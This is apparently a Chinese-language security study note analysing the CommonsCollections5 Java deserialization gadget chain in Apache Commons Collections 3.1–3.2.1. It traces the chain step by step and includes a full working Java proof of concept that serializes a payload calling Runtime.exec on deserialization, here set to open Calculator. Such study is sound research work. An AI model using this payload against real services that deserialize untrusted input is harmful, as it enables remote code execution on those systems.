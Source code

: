 # CommonsCollections5 利用链分析

## 前言

今天接着学习`CommonsCollections5`利用链，利用环境如下：
```
CommonsCollections 3.1 - 3.2.1
JDK 8u76之前
```

`ysoserial`给出的利用链如下：

```
Gadget chain:
        ObjectInputStream.readObject()
            BadAttributeValueExpException.readObject()
                TiedMapEntry.toString()
                    LazyMap.get()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Class.getMethod()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.getRuntime()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.exec()
```

前面的`BadAttributeValueExpException`和`TiedMapEntry`倒是新知识，后面的则是前面`CommonsCollections1`的内容。看样子这条链子是找了其他能触发`LazyMap#get()`的方法。
## 利用链分析

按照利用链跟进能触发`LazyMap#get()`方法的`TiedMapEntry`类的`toString()`方法
![image-20221011112752765](images/image-20221011112752765.png)

跟进`getValue()`方法源码
![image-20221011112827805](images/image-20221011112827805.png)

可以看到调用了`map.get()`方法，而`map`是通过构造方法传入的值，完全可控。接下来就是找到能触发`TiedMapEntry#toString()`方法的地方，在`CommonsCollections5`用到的是`BadAttributeValueExpException`类，跟进该类的`readObject()`方法
![image-20221011144219939](images/image-20221011144219939.png)

其中`valObj`是从成员属性取的`val`，而`val`我们可以通过反射控制，因此成为可控点。并且`System.getSecurityManager()`方法默认为`null`，因此可以进入`else if`条件触发`valObj.toString();`

开始编写 POC
```java
package com.serialize;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

/**
 * Created by dotast on 2022/10/11 11:34
 */
public class CommonsCollections5 {
    public static void main(String[] args) throws Exception{
        CommonsCollections5 commonsCollections5 = new CommonsCollections5();
        commonsCollections5.serialize();
        commonsCollections5.unserialize();
    }

    /*
     * 客户端
     * */
    public void  serialize() throws Exception{
        String cmd = "open -a Calculator.app";

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建虚假的调用链
        Transformer[] fakeTransformers = new Transformer[]{new ConstantTransformer(1)};
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);

        Map innerMap = new HashMap<>();
        Map outerMap = LazyMap.decorate(innerMap, chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap, 666);
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(1);
        // 反射修改
        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException, tiedMapEntry);
        // 将真正的利用链数组设置到ChainedTransformer里面的iTransformers字段值
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chainedTransformer, transformers);
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        // 创建并实例化对象输出流
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(badAttributeValueExpException);
    }

    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
}
```

![image-20221011144759763](images/image-20221011144759763.png)
